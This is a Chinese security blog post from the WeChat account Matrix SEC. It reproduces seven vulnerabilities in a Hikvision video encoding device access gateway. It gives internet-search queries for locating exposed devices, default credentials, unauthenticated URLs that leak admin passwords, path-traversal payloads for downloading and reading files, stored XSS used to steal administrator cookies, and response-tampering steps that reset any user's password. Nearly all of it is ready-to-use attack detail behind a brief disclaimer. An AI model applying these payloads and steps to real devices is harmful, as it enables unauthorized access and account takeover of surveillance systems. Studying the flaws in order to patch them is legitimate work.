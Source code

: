 #  [漏洞复现] 海康威视视频编码设备接入网关七大漏洞

原创 Matrix SEC  [ Matrix SEC ](javascript:void\(0\);)

**Matrix SEC** ![]()

微信号 gh_d6c65ea376d7

功能介绍 矩阵安全-专注全球网络安全。威胁情报 | APT狩猎 | 漏洞情报 | Lulz

____

___发表于_

收录于合集 #漏洞复现 55个

  * **0x01  免责声明**

请勿使用本文中所提供的任何技术信息或代码工具进行非法测试和违法行为。若使用者利用本文中技术信息或代码工具对任何计算机系统造成的任何直接或者间接的后果及损失，均由使用者本人负责。本文所提供的技术信息或代码工具仅供于学习，一切不良后果与文章作者无关。使用者应该遵守法律法规，并尊重他人的合法权益。

  *  **0x02 影响版本**

海康威视视频编码设备接入网关

![]()

  *  **0x03 网络测绘**

fofa:

  * 

    
    
    app="HIKVISION-视频编码设备接入网关"

hunter:

  * 

    
    
    app.name="Hikvision 海康威视视频编码设备接入网关"

  *  **0x04  漏洞复现**

 **漏洞一  默认凭据**

  *   * 

    
    
    默认用户名：admin默认密码：12345

 **漏洞二  未授权访问管理员账号密码泄露**

  * 

    
    
    /userInfo/userInfo.php?userId=1

![]()

 **漏洞三  任意文件下载**

  * 

    
    
    /serverLog/downFile.php?fileName=default.log

![]()

将参数fileName的值删除重放后报错泄漏了物理路径，其中fopen(../../../log/)猜测是downFile.php文件中的源代码

![]()

通过报错内容在参数fileName后拼接

  * 

    
    
    ../../../{}/pag/web/html/serverLog/downFile.php

![]()

 **漏洞四  任意文件读取**

  * 

    
    
    /serverLog/showFile.php?fileName=../../../{}/pag/web/html/serverLog/downFile.php 

![]()

  * 

    
    
    /serverLog/showFile.php?fileName=../web/html/main.php

![]()

 **漏洞五  存储型XSS**

在资源管理里的分组管理可以未授权访问可插入XSS

  * 

    
    
    /groupManage/index.php

![]()

当管理员访问分组管理时，成功执行XSS

![]()

XSS平台成功获取到系统管理员cookie

![]()

 **漏洞六  ** **任意用户密码修改一**

对后台管理修改密码抓包

![]()

数据包中会对当前账户的原始密码进行校验，原始密码错误返回1，密码正确返回0

![]()

将服务器返回的数据包修改为0，进入下一个数据包，这里是对密码进行修改，接着继续放包提示修改成功

![]()

 **漏洞七  ** **任意用户密码修改二**

可以未授权访问修改密码

  * 

    
    
    /common/modifyPassword.php

输入框无法输入，用审查元素发现被设置只读，删除readonly即可  

![]()

同样抓取修改请求数据包，这里发现请求name的值是空的需要补上

![]()

![]()

放包后同样把1改成0，接着继续放包提示修改成功  

![]()

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

